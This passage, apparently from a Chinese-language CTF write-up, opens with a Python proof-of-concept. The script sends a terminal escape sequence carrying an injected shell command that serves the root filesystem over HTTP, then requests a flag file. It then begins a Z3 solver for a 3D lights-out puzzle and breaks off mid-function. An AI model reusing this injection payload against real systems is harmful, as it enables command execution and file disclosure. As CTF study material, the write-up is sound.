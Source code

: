 def main():
    POC_HEADER = b'\x1bP$q\x03\n'
    POC_ENDING = b'\x1b\\\n'
    HTTP_PORT = 7999
    
    try:
        send_socket(POC_HEADER)
        send_socket(f' | (cd / && python3 -m http.server {HTTP_PORT})\n'.encode())
        send_socket(POC_ENDING)

        time.sleep(4)
        
        response = send_socket(
            b'GET /flag2 HTTP/1.1\r\nConnection: close\r\n\r\n',
            port=HTTP_PORT
        )
        print(response)
        
    except Exception as e:
        print(f"执行过程出错: {e}")

if __name__ == "__main__":
    main()

```

改脚本一次能获取两个flag 但是flag2可能有点看运气

## 关灯

唉 看到题目的时候就知道和以前的2D关灯有关系 

一看 3D的

哈哈

简单跑个Z3

```
from z3 import *
import numpy as np

def xor_chain(values):
    """用于处理超过3个参数的XOR，逐步构建链式XOR表达式"""
    result = values[0]
    for value in values[1:]:
        result = Xor(result, value)
    return result

def convert_switch_to_constraints(switch_array, n):
    # 创建Z3的布尔数组
    lights = [[[Bool(f'lights_{i}_{j}_{k}') for k in range(n)] for j in range(n)] for i in range(n)]
    constraints = []
